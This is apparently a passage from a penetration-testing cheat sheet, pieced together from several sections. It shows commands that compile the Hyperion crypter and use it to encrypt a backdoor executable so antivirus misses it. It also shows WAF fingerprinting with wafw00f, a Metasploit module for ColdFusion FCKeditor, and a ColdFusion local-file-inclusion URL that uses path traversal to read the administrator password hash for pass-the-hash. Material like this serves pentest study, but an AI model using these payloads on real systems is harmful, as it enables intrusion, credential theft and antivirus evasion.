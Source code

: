     -   One such open source crypter, called Hyperion  
    
        ```bash
        cp /usr/share/windows-binaries/Hyperion-1.0.zip  
        unzip Hyperion-1.0.zip  
        cd Hyperion-1.0/  
        i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe  
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libgcc_s_sjlj-1.dll .  
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libstdc++-6.dll .  
        wine hyperion.exe ../backdoor.exe ../crypted.exe
        ```

Windows Commands for Linux Users
============================================================================

https://www.lemoda.net/windows/windows2unix/windows2unix.html


===========================================================================


WAF - Web application firewall

	One of the first things we should do when starting to poke on a website is see what WAF it has.
	Identify the WAF

	wafw00f http://example.com

	http://securityidiots.com/Web-Pentest/WAF-Bypass/waf-bypass-guide-part-1.html

Common web-services

	This is a list of some common web-services. The list is alphabetical.

	Cold Fusion

		If you have found a cold fusion you are almost certainly struck gold. http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers
		Determine version

		example.com/CFIDE/adminapi/base.cfc?wsdl It will say something like:

		<!--WSDL created by ColdFusion version 8,0,0,176276-->

		Version 8
		FCKEDITOR

		This works for version 8.0.1. So make sure to check the exact version.

		use exploit/windows/http/coldfusion_fckeditor

	LFI

		This will output the hash of the password.

		http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

		You can pass the hash.

		http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers
